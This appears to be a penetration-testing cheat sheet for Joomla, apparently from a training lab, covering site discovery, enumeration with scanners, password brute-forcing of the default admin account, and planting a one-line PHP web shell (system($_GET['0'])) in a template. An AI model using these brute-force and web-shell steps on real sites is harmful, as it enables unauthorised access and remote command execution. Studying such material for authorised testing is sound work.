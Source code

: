 # Discovery and Enumeration 

## Discovery
```shell
curl -s http://dev.inlanefreight.local/ | grep Joomla
```
### Robots.txt 
* Example:
```txt
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```
### README.txt
```shell
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```
### JavaScript files
```shell
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```

## Enumeration 
### Droopescan
* [Plugin](https://github.com/SamJoan/droopescan) that works for SilverStripe, WordPress and Drupal
```shell
sudo pip3 install droopescan
```

```shell
droopescan scan joomla --url http://dev.inlanefreight.local/
```
### JoomlaScan
* [Little bit out of data](https://github.com/drego85/JoomlaScan)
```shell
sudo python2.7 -m pip install urllib3
sudo python2.7 -m pip install certifi
sudo python2.7 -m pip install bs4
```

```shell
python2.7 joomlascan.py -u http://dev.inlanefreight.local
```
### Password Enumeration 
* Default username is admin
* [Brute Force Tool](https://github.com/ajnik/joomla-bruteforce)
```shell
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```
# Attacking Joomla
## Abusing Built-In Functionality 
* Adding PHP to templates:
	`Templates > Configuration > choose template > Templates: Customise > Choose page`
 ```php
system($_GET['0']);
```
## Leveraging Known Vulnerabilities 
* Research based on the installed version 
* List of [CVEs](https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html)

